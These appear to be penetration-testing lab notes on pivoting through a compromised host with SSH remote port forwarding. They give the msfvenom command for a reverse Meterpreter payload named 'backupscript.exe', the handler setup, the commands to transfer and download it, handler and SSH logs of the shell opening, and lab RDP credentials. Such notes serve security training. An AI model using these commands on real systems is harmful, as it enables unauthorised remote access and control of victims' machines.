


# Remote/Reverse Port Forwarding with SSH

1) Creating a Windows Payload with msfvenom

On our Attack Host for the Pivot Target Host :
msfvenom -p windows/x64/meterpreter/reverse_https lhost=$TARGET -f exe -o backupscript.exe LPORT=8080
Saved as: backupscript.exe

2) Configuring & Starting the multi/handler

On our Attack Host :
use exploit/multi/handler
set lhost 0.0.0.0
set lport 8000
run

3) Transferring Payload to Pivot Host

scp backupscript.exe ubuntu@$TARGET:~/
backupscript.exe                                   100% 7168    65.4KB/s   00:00 

4) Start HTTP server on pivot host to download payload from $TARGET_AFTER_PIVOT
On The pivot target Host :
python3 -m http.server 8123

5) Download payload from $TARGET_AFTER_PIVOT

On The windows target after pivot Host :
Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"

172.16.5.129 : IP of Pivot host reachable from $TARGET_AFTER_PIVOT

6) Use SSH remote port forwarding to forward connections from 8080 to 8000 on the Pivot Host
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@$TARGET -vN

7) Execute the payload from the Windows target and view the logs
ebug1: client_request_forwarded_tcpip: listen 172.16.5.129 port 8080, originator 172.16.5.19 port 61355
debug1: connect_next: host 0.0.0.0 ([0.0.0.0]:8000) in progress, fd=5
debug1: channel 1: new [172.16.5.19]
debug1: confirm forwarded-tcpip
debug1: channel 0: free: 172.16.5.19, nchannels 2
debug1: channel 1: connected to 0.0.0.0 port 8000
debug1: channel 1: free: 172.16.5.19, nchannels 1
debug1: client_input_channel_open: ctype forwarded-tcpip rchan 2 win 2097152 max 32768
debug1: client_request_forwarded_tcpip: listen 172.16.5.129 port 8080, originator 172.16.5.19 port 61356
debug1: connect_next: host 0.0.0.0 ([0.0.0.0]:8000) in progress, fd=4
debug1: channel 0: new [172.16.5.19]
debug1: confirm forwarded-tcpip
debug1: channel 0: connected to 0.0.0.0 port 8000

8) Meterpreter Session Established
[*] Started HTTPS reverse handler on https://0.0.0.0:8000
[!] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Without a database connected that payload UUID tracking will not work!
[*] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Staging x64 payload (201308 bytes) ...
[!] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (127.0.0.1:8000 -> 127.0.0.1 ) at 2022-03-02 10:48:10 -0500

meterpreter > shell
Process 3236 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>

## LAB

export TARGET_AFTER_PIVOT="172.16.5.19"
xfreerdp /v:$TARGET_AFTER_PIVOT /u:victor /p:pass@123